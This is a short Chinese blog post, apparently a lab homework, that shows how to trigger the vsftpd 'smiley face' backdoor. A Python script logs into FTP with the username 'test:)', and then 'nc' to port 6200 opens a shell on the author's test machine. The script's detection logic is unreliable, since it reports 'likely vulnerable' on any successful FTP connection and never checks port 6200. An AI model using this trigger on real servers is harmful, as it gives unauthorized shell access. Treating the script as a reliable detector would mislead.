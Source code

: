 # 笑脸漏洞检测

<br>

经过查询得知python的socket库中包含网络探测所需要的函数，在代码前面导入该库

<br>

<img src="https://54huarui.github.io/blogs/zuoye4/1.png" width="880" height="480">

<br>

## 编写

<br>

先导入socket库以及FTP库

<br>

````
import socket
from ftplib import FTP
````

<br>

接下来获取输入指定目标ip

<br>

````
ip = input("检测ip:")
````

<br>

编写FTP连接部分

笑脸漏洞即账号名中带有:) 的时候，会打开一个开放在6200端口的后门，可以连接到靶机的shell

<br>

````
    ftp = FTP()
    user = "test:)"
    passwd = "123"
    ftp.connect(ip, 21, timeout=100)
    print("成功连接 很可能存在笑脸漏洞")
    response = ftp.login(user, passwd)
    ftp.quit()
````

<br>


全部代码如下:

<br>

````
import socket
from ftplib import FTP

ip = input("检测ip:")
smile_port = "6200"

try:
    ftp = FTP()
    user = "test:)"
    passwd = "123"
    ftp.connect(ip, 21, timeout=100)
    print("成功连接 很可能存在笑脸漏洞")
    response = ftp.login(user, passwd)
    ftp.quit()
except:
    print("连接失败，可能不存在笑脸漏洞")

````
<br>

## 实验

<br><br>

输入我的靶机ip

<br>

<img src="https://54huarui.github.io/blogs/zuoye4/2.png" width="880" height="480">

<br>

提示存在笑脸漏洞，使用命令 nc 靶机ip 端口

可以直接连接上对方的shell，利用成功

<br>

<img src="https://54huarui.github.io/blogs/zuoye4/3.png" width="880" height="480">

<br>





